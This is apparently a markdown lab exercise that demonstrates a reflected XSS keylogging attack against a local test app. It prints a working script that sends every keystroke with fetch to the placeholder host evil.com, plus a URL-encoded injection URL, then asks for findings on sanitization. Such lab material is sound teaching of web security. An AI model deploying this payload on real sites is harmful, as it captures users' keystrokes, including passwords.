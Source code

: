 Below is the markdown file content with proper formatting:

# Steps to Attempt the Keylogging XSS Attack

## Craft the Malicious Payload

The attacker’s keylogging payload is:

```html
<script>
  document.onkeypress = function(e) {
    fetch('http://evil.com/log?key=' + e.key);
  };
</script>
```

This code sets up an event handler that sends every keystroke to a remote server (in this example, evil.com).

## Inject the Payload

To simulate an attack, append the payload to the URL as the value of the `content` query parameter. For example, enter the following URL in your browser’s address bar:

```perl
http://localhost:3000/?content=<script>document.onkeypress%20=%20function(e)%20{%20fetch('http://evil.com/log?key='+e.key);%20};</script>
```

**Note:** The payload must be URL-encoded if your browser doesn’t automatically do so.

## Observe the Exploit

After loading the URL, the page will display your injected payload in the HTML. However, because the injected script is executed immediately, the keylogger is activated.

Now, any keystroke you make anywhere on the page will trigger the `document.onkeypress` event. In a real attack, each key press would send a request to `http://evil.com/log?key=...`.

For demonstration purposes, you can open your browser’s developer tools (typically via F12) and watch the Network tab to see if fetch requests are being sent. (Since the target URL in the payload is a placeholder, you may see failed requests unless you change the URL to a controlled logging server.)

## Document Your Findings

- Record what happens when you type into the input field.
- Explain how the unsanitized reflection of user input allowed the keylogging script to execute.
- Discuss the implications and how proper sanitization and output encoding could prevent such vulnerabilities.
